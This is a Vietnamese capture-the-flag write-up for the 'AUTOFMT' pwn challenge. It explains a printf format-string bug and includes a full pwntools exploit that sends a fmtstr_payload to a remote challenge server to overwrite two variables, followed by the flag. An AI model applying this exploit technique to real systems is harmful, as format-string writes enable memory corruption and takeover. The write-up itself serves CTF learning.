







# AUTOFMT (pwn)

> Description: Trung bình

## Exploit

- Kiểm tra chương trình với `file`, là file binary 64bit

  

- Kiểm tra với `checksec`, NX, Stack Canary, PIE đều được bật

  

- Chạy chương trình, ta thấy chương trình in ra 2 giá trị `a` và `b`, và địa chỉ của `a`

  

- Sủ dụng pseudo code, ta thấy rằng là chương trình sẽ random 2 giá trị, sau đó in ra cùng với địa chỉ `a`, mục đích sẽ là sửa được 2 giá trị `a`, `b` sao cho bằng 2 giá trị được in ra. Và ta thấy rằng là trong chương trình có sử dụng `prinf`, nên có thể sử dụng format string để sửa 2 giá trị.

  

- Kiểm tra địa chỉ của `a`, `b`, ta thấy rằng là địa chỉ của `b`: `bAddr = aAddr - 8`

  

- Tìm offset của user input, với user input là `'%p' * 30`,ta thấy rằng là nó sẽ nằm tại vị trí thứ 10(`p` = `0x70`, `%` = `0x25`, ` ` = `0x20`)

  

- Như vậy, có được code exploit, sử dụng `pwntools - fmtstr_payload`: [AutoFmt.py](AutoFmt.py)

  ```python
  from pwn import *

  # p = process('./autofmt')

  p = remote('45.122.249.68', 10015)

  p.recvline()

  context.clear(arch='amd64')

  aValue = int(p.recvline()[4:-1])
  bValue = int(p.recvline()[4:-1])
  aAddr = int(p.recvline()[11:-1], 16)
  bAddr = aAddr - 8

  log.info(f'a Value: {hex(aValue)}')
  log.info(f'b Value: {hex(bValue)}')
  log.info(f'a address: {hex(aAddr)}')
  log.info(f'b address: {hex(bAddr)}')

  writes = {aAddr: p64(aValue),
            bAddr: p64(bValue)}

  payload = fmtstr_payload(10, writes, write_size='short')

  print(payload)
  p.sendline(payload)

  p.interactive()

  ```

  

> Flag: Wanna.One{do_cac_ban_tren_the_gian_nay_khoang_cach_nao_la_xa_nhat}
